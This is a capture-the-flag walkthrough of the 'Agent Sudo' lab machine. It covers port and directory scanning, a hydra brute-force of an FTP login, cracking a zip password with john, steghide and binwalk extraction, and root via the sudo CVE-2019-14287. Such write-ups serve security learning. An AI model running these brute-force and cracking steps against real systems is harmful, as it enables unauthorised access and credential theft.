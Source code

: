 # Agent Sudo

## Reconnaissance

IP address : 10.10.105.199

## Scanning & Enumeration

* Nmap Scanning

```shell
nmap -A -T -p- 10.10.105.199
```

the scan result is [here](nmap/all_port)
open port are :
number | service | version
--- |---| ---
21 | ftp | vsftpd 3.0.3
22 | ssh | OpenSSH 7.6p1
80 | http | Apache httpd 2.4.29

* Gobuster Directory Listing

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.105.199
```

didn't found any thing interesting

* Use your Code name ase user Agent
  
We tried A, B ... and found something interesting wih :

```shell
curl --user-agent "C" -L  http://10.10.105.199/
```

![User Agent](img/u-agent.png)

* FTP Brute Force
  
as we know chris password is week we can try to brute force it.

```shell
 hydra  -l chris -P /usr/share/wordlists/rockyou.txt  ftp://10.10.105.199
```

done  the password is cr**tal
we login in to ftp
![FTP login](img/ftp.png)

we found some interesting [files](files)

  -- the text file contain interesting info about J password
  -- We run binwalk on cuttie.png and discoverd interesting stuff : it containt a zip file.

```shell
binwalk -e cutie.png
```

To extract all these [files](files/_cutie.png.extracted)

* crack zip with john
calculate the hash

```shell
zip2john 8702.zip > 8702.hash
```

crack it now

```shell
john 8702.hash
```

password : a**en
The extraction not work with unzip so we uze 7z

```shell
7z e 8702.zip
```

we sound a [message](files/_cutie.png.extracted/To_agentR.txt) with a b64 encrypted section , after decoding : Ar**51

*Decrypt the steg hide now

```shell
steghide extract -sf cute-alien.jpg
```

## Exploitation

* SSH Login

Now we already colleted some user credentials we can you it to login.

![ssh login](img/ssh-login.png)

Now we can grab the user flag

### Let escalate privilege

* [CVE 2019-14287](https://www.exploit-db.com/exploits/47502)
  
The sudo version is vulnerable to CVE 2019-14287

after exploitation we got the root shell

![root shell](img/root-shell.png)
